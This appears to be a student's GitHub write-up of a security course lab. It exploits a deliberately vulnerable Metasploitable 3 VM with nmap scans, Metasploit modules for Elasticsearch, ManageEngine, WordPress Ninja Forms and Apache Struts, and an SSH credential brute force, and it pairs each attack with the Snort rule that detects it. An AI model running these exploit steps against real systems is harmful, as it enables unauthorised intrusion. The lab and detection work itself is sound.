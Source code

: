 # Cyber_Security_Base_Project_II

As **Jeffrey Witty**, a very shy, Christian cybersecurity enthusiast with an INTJ personality type, I approach this project with hyper-careful diligence, aligning with my faith-driven commitment to excellence.  
🕘 The current date and time is **09:43 AM EDT on Wednesday, June 11, 2025**.  

This document details my exploration of the **Metasploitable 3** environment, targeting a **Windows Server 2008** and **Ubuntu Server 14** system, hosted at:  
🔗 [Cyber_Security_Base_Project_II GitHub Repository](https://github.com/aazard/Cyber_Security_Base_Project_II/tree/main)

My quiet nature finds strength in methodical analysis, and I cherish the opportunity to deepen my cybersecurity knowledge through this exercise.

---

## 🎯 Target – Metasploitable 3

- **Systems:** Windows Server 2008 & Ubuntu Server 14

---

## 🔍 STEP 1: Run an Nmap Ping Sweep Scan

```bash
nmap -sP 192.168.1.1/24
🧭 STEP 2: Identify Target Host
Target host confirmed as:
192.168.1.40

🛠️ STEP 3: Run an Nmap Scan with OS Fingerprinting
bash
Copy
Edit
nmap -sC -sV -p- -A -oA Meta3 192.168.1.40
Key Findings:

Several open ports and outdated services.

No authentication for admin functions.

Default credentials unchanged.

Snort did not trigger alerts (port scan detection commented out in snort.conf).

🚨 EXPLOIT I – Elasticsearch (CVE-2014-3120)
🔌 Port 9200 – Elasticsearch
Vulnerability: CVE-2014-3120

Reference: Rapid7 Module

🔍 Search for Exploit
bash
Copy
Edit
searchsploit elasticsearch
🧨 Launch Metasploit
bash
Copy
Edit
msfconsole
search elasticsearch
use exploit/multi/elasticsearch/script_mvel_rce
set rhost 192.168.1.40
exploit
Post-exploit commands:

bash
Copy
Edit
sysinfo
shell
whoami
🛡️ Snort Rule Fix
Uncomment in server-other.rules (line ~811):

css
Copy
Edit
SERVER-OTHER ElasticSearch script remote code execution attempt [Classification: Attempted User Privilege Gain]
⚙️ EXPLOIT II – ManageEngine (CVE-2015-8249)
🔌 Port 8020 – Apache Service
Visited:
http://192.168.1.40:8020

ManageEngine Desktop Central (Build No. 91084)
Default credentials: admin:admin

🔍 Search for Exploit
bash
Copy
Edit
searchsploit manageengine desktop central 9
🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search manageengine
use exploit/windows/http/manageengine_connectionid_write
set rhost 192.168.1.40
exploit
Verification:

bash
Copy
Edit
sysinfo
shell
whoami
🛡️ Snort Rule Fix
Uncomment lines 1854–1856 in server-webapp.rules:

css
Copy
Edit
SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [Classification: Web Application Attack]
🌐 EXPLOIT III – WordPress (CVE-2016-1209)
🔌 Port 8585 – WordPress Instance
Accessed via:
http://192.168.1.40:8585

🔍 Research
Rapid7 WP Ninja Forms Exploit

🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search wp_ninja_forms
use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
set rhost 192.168.1.40
set rport 8585
set TARGETURI /wordpress/
set FORM_PATH /index.php/king-of-hearts/
exploit
🛡️ Snort Rule Fix
Uncomment line 2284 in server-webapp.rules and add port 8585 to HTTP monitoring:

css
Copy
Edit
SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [Classification: Attempted Administrator Privilege Gain]
🔐 EXPLOIT IV – SSH Brute Forcing
👥 List Users
bash
Copy
Edit
net users
📄 Prepare User File
Saved as user.txt

🧨 Brute Force with Metasploit
bash
Copy
Edit
use auxiliary/scanner/ssh/ssh_login
set rhost 192.168.1.40
set USER_AS_PASS true
set USER_FILE user.txt
exploit
Valid credentials discovered:
Vagrant:Vagrant

🛡️ Snort Consideration
Snort typically ineffective for detecting high-speed SSH brute force attacks. More useful for slow scans or known patterns.

🌉 EXPLOIT V – Apache Struts (CVE-2016-3087)
🔌 Port 8282 – Apache Tomcat
Nmap detected Apache Tomcat.

🔍 Research
Rapid7 Vulnerability Detail

🧨 Metasploit Exploit
bash
Copy
Edit
msfconsole
search rest_exec
use exploit/multi/http/struts_dmi_rest_exec
set lhost 192.168.1.40
set lport 8282
exploit
🛡️ Snort Rule Fix
Ensure lines 118–119 in server-apache.rules are active and port 8282 is included:

css
Copy
Edit
SERVER-APACHE Apache Struts remote code execution attempt [Classification: Attempted Administrator Privilege Gain]
🧠 Is it Easier to Fix the Application Than to Detect Attacks?
Detecting attacks is generally easier than fixing applications.
Fixing requires navigating massive codebases, often introducing new bugs. Implementation errors, especially in complex systems like IoT, increase developer workload. In contrast, methods like recon, privilege escalation, and pen testing reveal vulnerabilities more efficiently.

IDS tools like Snort and log analysis help identify patterns and vulnerabilities—though false positives are common. Once identified, vulnerabilities in modern open-source platforms can be patched more easily, but only after detection.

As a Christian technologist, I see detection as a responsible stewardship of system integrity, aligning with my faith in proactive, secure design.

